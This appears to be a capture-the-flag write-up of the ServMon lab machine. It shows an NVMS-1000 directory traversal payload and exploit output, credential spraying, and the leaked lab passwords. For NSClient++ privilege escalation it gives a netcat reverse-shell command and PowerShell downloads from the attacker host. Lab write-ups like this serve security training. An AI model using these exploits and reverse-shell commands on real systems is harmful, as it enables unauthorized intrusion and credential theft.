1, Recon
port scan 
	21/tcp ftp 
	22/tcp ssh
	80/tcp http
	135/tcp RPC
	445/tcp SMB
	8443/tcp https-alt
page check
	We can get the name of page title `NVMS-1000`
	And we can also get the exploits of that `NVMS 1000 - Directory Traversal`

And we have successfully test that:
```
python3 nvms.py 10.10.10.184 Windows/system.ini win.ini
[+] DT Attack Succeeded
[+] Saving File Content
[+] Saved
[+] File Content

++++++++++ BEGIN ++++++++++
; for 16-bit app support
[386Enh]
woafont=dosapp.fon
EGA80WOA.FON=EGA80WOA.FON
EGA40WOA.FON=EGA40WOA.FON
CGA80WOA.FON=CGA80WOA.FON
CGA40WOA.FON=CGA40WOA.FON

[drivers]
wave=mmdrv.dll
timer=timer.drv

[mci]

++++++++++  END  ++++++++++

```

Let's try to check other useful files and creds. But I did not know which files I need to check.

Let's come to port 21(service ftp).
Very luckily, we can login with anonymous user.
Then we get 2 files
```
cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine

cat 'Notes to do.txt' 
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```
Then we know to get the `Password.txt` from Nathan's Desktop and we also know Nadine did not upload the password. That means the password would be not changed.

Let's get the `Password.txt`, then the payload is `/../../../../../../../../../../../../users/nathan/desktop/passwords.txt`

```
Password.txt

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

Since I only have a list of passwords without usernames, I’ll create a list of what I know now:
```
user.txt

administrator
nathan
nadine
```
Let's use the `crackmapexec` to check the SMB credit.
`ServMon\nadine:L1k3B1gBut7s@W0rk`

2, shell as nadine
By check the credit to `evil-winrm` and `smbclient` and ssh.
Only ssh could be useful for us and we can get shell of nadine

Then we can enumerate the existed applications of this machine. 
`NSClient++` would be our target.

With a shell, I can get the NSClient++ password. I could do it by reading the .ini file, or just having the helper program tell me:
```
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

If I try to log in from https://10.10.10.184:8443, it blocks me:
![[Pasted image 20240913040259.png]]

Towards the top of nsclient.ini, there’s this:
```
; Undocumented key                                                                                  
allowed hosts = 127.0.0.1 
```
I need to come from localhost. I’ll re-SSH with a tunnel that runs from my localhost:8443 to localhost on ServMon:8443:
```
ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443    
```

I was able to get success by taking the following steps based on How To Run Commands in the NSClient documentation. The steps are for directly interacting with the nsclient.ini file, but I eventually got a feel for how to use the web interface to get the same results:

1.Create shell.bat:
`\programdata\nc.exe 10.10.14.24 443 -e cmd`
This assumes that nc.exe is in C:\programdata (I will put it there) and it will connect back to me with a shell when run.

2.Upload nc64.exe and shell.bat to C:\programdata\. I started a Python HTTP server on my host, and used PowerShell’s wget command:
```
nadine@SERVMON C:\ProgramData>powershell wget http://10.10.14.65/nc64.exe -outfile nc.exe

nadine@SERVMON C:\ProgramData>powershell wget http://10.10.14.65/shell.bat -outfile shell.bat
```

3.In the NSClient++ GUI, first I’ll associate my script with a command by clicking Settings > external scripts > scripts, and then “+Add new”.
![[Pasted image 20240913042430.png]]
When I hit “Add”, df now shows up under scripts above, and the Changes tab turns red. I can go to Changes and save this to the disk config. This will add the following to the config file:
```
 ; in flight - TODO
   [/settings/external scripts/scripts/df]
   
   ; COMMAND - Command to execute
   command = C:\\programdata\\shell.bat
```

Now under scheduler > schedules I’ll hit the “+Add new” button. I need to add two things here. First, I’ll edit the section to add a new name, and then give it an interval of 10 seconds:

![[Pasted image 20240913042509.png]]

After hitting Add, I’ll change edit the form, and then Add again:

![[Pasted image 20240913042519.png]]

Now df shows up as a scheduled task, and I can see it has both key/values:
![[Pasted image 20240913042533.png]]


Go to Control –> Reload. Then Wait. It can take longer than it feels like it should. This box can be very frustrating.

